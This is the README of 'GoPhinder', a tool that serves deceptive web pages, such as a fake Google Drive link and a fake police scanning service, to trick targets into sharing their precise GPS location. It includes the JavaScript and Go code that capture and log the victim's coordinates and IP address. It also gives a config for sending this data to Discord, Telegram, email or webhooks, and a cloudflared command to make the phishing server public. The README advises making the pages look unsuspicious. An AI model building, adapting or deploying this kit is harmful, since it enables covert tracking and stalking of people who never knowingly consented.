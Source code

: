 <div align="center">
  <img src="./assets/logo.png" alt="GoPhinder" />
  <h1><strong>GoPhinder</strong></h1>
  <p>📍 Social Engineering Accurate Tracking of Devices 📍</p>
</div>

Inspired by [seeker](https://github.com/thewhiteh4t/seeker), this concept is much like phishing for credentials, but instead for precise GPS details. With the ease of capturing gps details via javascript, crafting an enticing website for a given target to grant location based permissions is one of many social engineering strategies.

# Usage
```bash
./gophinder -h
Usage of ./gophinder:
  -config string
    	Path to JSON config file for notifications (default "config.json")
  -h	Show usage
  -p int
    	Web Server port (default 8080)
  -t string
    	Specify a path to a template file (default "templates/index.html")
```

## Output
```bash
[+] Server running on http://localhost:8080
┌──[Access Log]────────────[2025-05-01 22:56:55]
│ [+] Language     : en-US,en;q=0.9
│ [+] Referer      : http://localhost:8080/
│ [+] IP Address   : ::1
│ [+] User-Agent   : Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/17.5 Safari/605.1.15
└─────────────────────────────────────────────────────

┌──[Location Log]────────────[2025-05-01 23:04:24]
│ [+] Longitude    : xxxx
│ [+] Google Maps  : https://maps.google.com/?q=xxxx,xxxx
│ [+] IP Address   : ::1
│ [+] Latitude     : xxxx
└───────────────────────────────────────────────────────
```

## Additional output
Additional logging/output can be attained and pushed to stdout with ease.
An approach can look like such:
```golang
func HandleTrack() http.HandlerFunc {
	return func(w http.ResponseWriter, r *http.Request) {
		var data struct { // gets data form json response form webpage
      			Lat float64 `json:"lat"`
      			Lon float64 `json:"lon"`
		}
		if err := json.NewDecoder(r.Body).Decode(&data); err != nil {
			log.Printf("JSON decode error: %v", err)
			http.Error(w, "Bad Request", http.StatusBadRequest)
			return
		}

		ip := utils.GetIP(r) // get the ip
		fields := map[string]string{ // create map
			"IP Address":  ip, // can be anything
			"Latitude":    fmt.Sprintf("%.6f", data.Lat),
			"Longitude":   fmt.Sprintf("%.6f", data.Lon),
			"Google Maps": fmt.Sprintf("https://maps.google.com/?q=%.6f,%.6f", data.Lat, data.Lon),
		}
		logging.LogBlock("Location Log", fields) // push to the log
		w.WriteHeader(http.StatusOK) // push 200 back to client
	}
}
```

# Templates
Default templates can be found in the *templates* directory
* Fake Google Drive Access Link
* Fake Emergency/Police Local Scanning Service
* Fake Private Event Finder

By default, the templates only gather location based information as seen below
```javascript
navigator.geolocation.getCurrentPosition(function(position) { // get exact location
    fetch(window.location.origin + "/track", { // send to backend
        method: "POST",
        headers: {
            "Content-Type": "application/json"
        },
        body: JSON.stringify({
            lat: position.coords.latitude,
            lon: position.coords.longitude
        })
    });
});
```

You can **add/customize** templates as needed, throw in a button click to execute, or do what you please!
The idea is to not have something so suspicious in terms of the context within the page.

## External Logging
1. A discord webhook can be specified to automatically send logs.
2. An email can be specified to automatically retain logs.
3. Telegram can be specified to retain logs.
4. A webhook URL can be specified to retain logs.

## External Exfiltration
To get automatic updates elsewhere, you can specify your *discord webhook, telegram token, and email credentials*. This can be done by editing the **config.json** file.
```json
{
  "discord": {
    "enabled": false,
    "webhook_url": "https://discord.com/api/webhooks/..."
  },
  "telegram": {
    "enabled": false,
    "bot_token": "123456:ABC-DEF1234ghIkl-zyx57W2v1u123ew11",
    "chat_id": "987654321"
  },
  "email": {
    "enabled": false,
    "smtp_host": "smtp.gmail.com",
    "smtp_port": 587,
    "username": "your@email.com",
    "password": "yourpassword",
    "to": "recipient@email.com"
  }
}
```

By **default**, the exfiltration methods are set to false, but one can enable as many as needed.

## Screenshot
<img src="./assets/example.png" alt="GoPhinder" />

# tunneling
Tunneling like the classic way goes can be as followed:
```bash
# cloudflared must be installed prior ideally
cloudflared tunnel --url http://localhost:8080
```

# Contributions
Contributions are very welcomed for additional functionality, or templates!# GoPhinder
